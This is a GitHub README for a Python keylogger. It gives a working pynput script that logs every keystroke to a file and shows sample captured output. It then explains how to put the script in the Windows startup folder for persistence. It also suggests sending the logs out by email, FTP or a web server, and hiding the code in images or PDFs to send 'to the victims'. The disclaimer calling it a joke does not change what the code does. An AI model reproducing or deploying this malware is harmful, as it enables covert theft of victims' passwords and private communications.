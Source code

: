 ## python3_Keylogger ♘
python3 keylogger 

1) install python 3 then install pynput with following command
	```python
	   python -m pip install pynput
	```
2) output was automatically saved on script directory that was running <br>
3) Use Shell as follow<br>
  3-1) win+R<br>
  3-2) paste shell:startup then enter<br>
  3-3) copy keylogger.py in folder that apeared before<br>
  3-4) change dir to different location<br>

### you can use SMTP Email or FTP Client or Web Server to get KeyStroke
#### ☕☕ Good Luck! (mrt.mycloud@gmail.com)

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
output as follow
```C#
2021-04-10 16:46:43,841: Key.backspace
2021-04-10 16:46:44,298: 'p'
2021-04-10 16:46:44,578: 'y'
2021-04-10 16:46:44,826: 't'
2021-04-10 16:46:44,922: 'h'
2021-04-10 16:46:45,154: 'o'
2021-04-10 16:46:45,354: 'n'
2021-04-10 16:46:45,898: <99>
2021-04-10 16:46:47,178: <193>
2021-04-10 16:46:48,114: Key.shift_r
2021-04-10 16:46:48,474: '+'
2021-04-10 16:46:49,298: Key.backspace
2021-04-10 16:46:50,346: Key.shift_r
```
#### this keylogger can be used on windows/linux/Mac
#### ʕ•́ᴥ•̀ʔ you can Hide this code on .jpg/.png/.pdf with "steganography" then send to the victims
#### 🎲This file is just an internet joke and nothing else🎲
<div><a href="https://wallet.nimiq.com/nimiq:NQ22NDADB32E37NV4BN56APH0VAFR3JVGJ49" target="_blank"><img src="https://www.nimiq.com/accept-donations/img/donationBtnImg/blue-big.svg" width="150"/></a></div>
